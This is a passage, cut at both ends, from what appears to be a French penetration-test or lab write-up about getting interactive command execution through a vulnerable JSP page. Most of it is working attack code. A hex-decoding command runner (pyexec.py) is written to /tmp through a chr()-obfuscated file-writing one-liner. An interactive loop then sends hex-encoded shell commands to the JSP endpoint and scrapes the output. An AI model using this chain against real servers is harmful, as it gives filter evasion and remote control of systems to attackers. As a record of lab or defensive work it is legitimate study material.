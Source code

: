 et dans un deuxième temps un script *pyexec.py* qui prend en argument une chaîne hexa, la décode et exécute la commande bash obtenue en prenant soin de sortir chaque ligne d'output sur la dernière colonne :  

```python
from subprocess import getoutput
from binascii import unhexlify
import sys

cmd = unhexlify(sys.argv[1]).decode()
x = getoutput(cmd).splitlines()
for l in x:
    print("a b c d e f g h "+l)
```

Si je peux uploader *pyexec.py* sur le serveur je le converti avec *write\_to\_file.py* :  

```plain
python write_to_file.py pyexec.py /tmp/pyexec.py
```

Ce qui donne un output de ce style :  

```python
open(chr(47)+chr(116)+chr(109)+...+chr(121),chr(119)).write(chr(102)+chr(114)+...+chr(10))
```

Il suffit d'appeler *python3 -c* suivi de la chaîne obtenue dans le script JSP et voilà !  

Maintenant je peux passer des commandes avec autant de redirections, pipe et compagnie que je le souhaite, il suffit de les passer hex-encodés à pyexec :  

```plain
python3 /tmp/pyexec.py 6c73202d6c
```

[C’est ça, la puissance intellectuelle. Bac + 2, les enfants.](https://www.youtube.com/watch?v=zNjmnd9rYjI)
-----------------------------------------------------------------------------------------------------------

Le dernier script pour clôturer tout ça c'est comme souvent un [REPL](https://en.wikipedia.org/wiki/Read%E2%80%93eval%E2%80%93print_loop) qui permet d'avoir un semblant d’interactivité avec le serveur :  

```python
import sys
from urllib.parse import quote
from binascii import hexlify

import requests
from bs4 import BeautifulSoup

URL = "http://192.168.1.10:8080/test.jsp?path=python3+/tmp/pyexec.py+{}"

while True:
    try:
        cmd = input("$ ").strip()
    except EOFError:
        break

    if cmd.lower() in ("quit", "exit"):
        break

    url = URL.format(hexlify(cmd.encode()).decode())
    response = requests.get(url)
    soup = BeautifulSoup(response.text, "lxml")
    infos = []
    for i, row in enumerate(soup.select_one("table:nth-of-type(2)").find_all("tr")):
        if i == 0:
            continue
```